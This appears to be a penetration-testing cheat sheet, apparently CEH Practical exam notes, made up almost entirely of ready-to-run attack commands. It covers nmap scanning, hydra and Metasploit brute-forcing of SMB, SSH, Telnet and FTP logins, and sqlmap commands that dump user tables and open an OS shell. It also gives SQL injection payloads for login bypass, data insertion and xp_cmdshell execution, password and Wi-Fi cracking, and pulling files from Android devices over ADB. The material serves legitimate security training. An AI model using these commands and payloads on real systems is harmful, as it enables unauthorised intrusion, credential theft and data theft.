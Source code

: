 # Scanning

<details>
  <summary>Netdiscover </summary>
```console
netdiscover -r x.x.x.1/24
```
<details>
  <summary>NMAP </summary>
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

==== Crack SMB credentials ====

1) hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb

2) Metasploit

For Cracking SMB Password:
•	we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
•	>msfconsole .
•	>use auxiliary/scanner/smb/smb_login
•	>show option | To get an idea of what to set on
•	>set PASS_FILE ./ROKYOU.TXT
•	>set rhost {target IP address} | notes :- rhost means remote host
•	>set SMBUser name [of the user] | (generally Administrator is username)
•	>run

=== Bruteforce SSH, TELNET, FTP  ===

hydra -l username -P passlist.txt x.x.x.x ssh
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet

hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

•	If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

	
•	Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt


==== Vulnerability Scanning ====

1) Nessus

Nessus runs on https[:]//localhost[:]8834

2) nikto -h 

===== Hidden text ====

1) snow -C -p "magic" readme2.txt

2) steghide 

==== WIRESHARK ====



To find DOS (SYN and ACK) : 
•	tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0

To find Wireshark DOS attack:
•	statistic -> IPv4 statistic -> source and destination address

View Flood attack on victim via Wireshark 
•	| use filter tcp.port=21


https://www.comparitech.com/net-admin/wireshark-cheat-sheet/

====== SQL ======

SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --


=== PASSWORD CRACKING ===

john --single --format=md5crypt crack.txt

=== WIFI ENCYRPTION CRACKING ===

aircrack-ng -w rockyou.txt capture-01.cap


=== VERACRYPT ===


=== CUSTOM WORDLIST ===

=== MOBILE ===

ADB
To Install ADB
apt-get update
sudo apt-get install adb -y
adb devices -l
Connection Establish Steps
adb connect x.x.x.x:5555
adb devices -l
adb shell  
To navigate
pwd
ls
cd Download
ls
cd sdcard
Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop

== resources ==

https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main


